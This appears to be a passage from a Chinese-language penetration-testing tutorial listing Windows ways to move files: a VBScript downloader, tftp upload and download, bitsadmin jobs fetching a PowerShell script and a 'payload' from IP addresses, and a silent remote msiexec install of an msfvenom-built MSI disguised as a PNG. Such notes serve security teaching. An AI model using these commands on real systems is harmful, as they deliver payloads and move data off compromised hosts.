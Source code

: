 > 在 1998 年 Visual Basic 最终标准在 windows 上确定。下面的代码可以实现下载文件，虽然它的长度比 Powershell 长多了

```
Set args = Wscript.Arguments
Url = "http://domain/file"
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile " C:\%homepath%\file", 2 '
end with
```

> 在 windows 中 Cscript 指令可以允许你执行 VBS 脚本文件或者对 script 脚本做一些设置。在 windows 7 中这个指令并不是必须要用到。但是在 windows XP 中需要使用这条指令，如下所示:

```
cscript test.vbs
```

#### 3.5 Tftp

在 Windows Vista 以及以后的版本中默认有 FTP，可以使用以下命令运行：

上传：

```
tftp -i IP地址 PUT C:\%homepath%\file 远程存放位置
```

下载：

```
tftp -i IP地址 GET C:\%homepath%\file 本地存放位置
```

#### 3.6 Bitsadmin

Bitsadmin 是 Windows 命令行工具，用户可以使用它来创建下载或上传的任务。只能命令下载到指定路径上，win7 以上：

```
bitsadmin /transfer myDownLoadJob /download /priority normal "http://192.168.203.140/b.ps1" "E:\\phpstudy_pro\\WWW\\b.ps1"

bitsadmin /rawreturn /transfer getfile http://192.168.3.1/test.txt E:\file\test.txt

bitsadmin /rawreturn /transfer getpayload http://192.168.3.1/test.txt E:\file\test.txt
```

#### 3.7 msiexec

```
msiexec /q /i http://192.168.3.1/calc.png
calc.png:


msfvenom -f msi -p windows/exec CMD=calc.exe > cacl.png
```
